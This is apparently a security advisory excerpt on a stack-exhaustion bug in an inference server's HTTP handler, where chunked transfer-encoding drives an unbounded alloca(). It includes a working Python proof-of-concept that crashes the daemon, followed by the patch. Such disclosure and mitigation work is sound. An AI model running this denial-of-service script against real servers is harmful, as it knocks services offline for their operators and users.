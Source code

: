 ```c
int n = evbuffer_peek(req->buffer_in, -1, NULL, NULL, 0);
if (n > 0) {
    /* allocates 16 * n bytes on the stack */
    struct evbuffer_iovec *v = (struct evbuffer_iovec *)
        alloca(sizeof(struct evbuffer_iovec) * n);
    ...
}
```

1. `evbuffer_peek` (libevent) returns the **number of internal buffer segments** that compose the current HTTP request body.
2. Each segment causes a **16-byte** `evbuffer_iovec` to be allocated on the **stack** via `alloca()` – **without any upper bound**.
3. By abusing **HTTP _chunked transfer-encoding_**, a client can force the request to be split into **hundreds-of-thousands of 6-byte chunks** (`"1\r\nA\r\n"`).  This makes `n` grow unbounded until the stack is exhausted.

#### Proof-of-Concept (DoS)
```python
#!/usr/bin/env python3
import socket, sys

def exploit(host="localhost", port=8000, chunks=523_800):
    s = socket.create_connection((host, port))
    s.sendall((
        f"POST /v2/models/add_sub/infer HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        "Content-Type: application/octet-stream\r\n"
        "Inference-Header-Content-Length: 0\r\n"
        "Transfer-Encoding: chunked\r\n"
        "Connection: close\r\n\r\n"
    ).encode())

    for _ in range(chunks):                  # 6-byte chunk ➜ 16-byte alloc
        s.send(b"1\r\nA\r\n")            # amplification factor ≈ 2.6x
    s.sendall(b"0\r\n\r\n")               # end of chunks
    s.close()

if __name__ == "__main__":
    exploit(*sys.argv[1:])
```
A ~3 MB request is enough to overwrite the saved return address and **crash** the daemon on a default build.

#### Patch & Mitigation
The 25.07 release replaces the unsafe stack allocation with a **heap-backed `std::vector`** and gracefully handles `std::bad_alloc`:

```c++
std::vector<evbuffer_iovec> v_vec;
try {
    v_vec = std::vector<evbuffer_iovec>(n);
} catch (const std::bad_alloc &e) {
    return TRITONSERVER_ErrorNew(TRITONSERVER_ERROR_INVALID_ARG, "alloc failed");
}
struct evbuffer_iovec *v = v_vec.data();
```
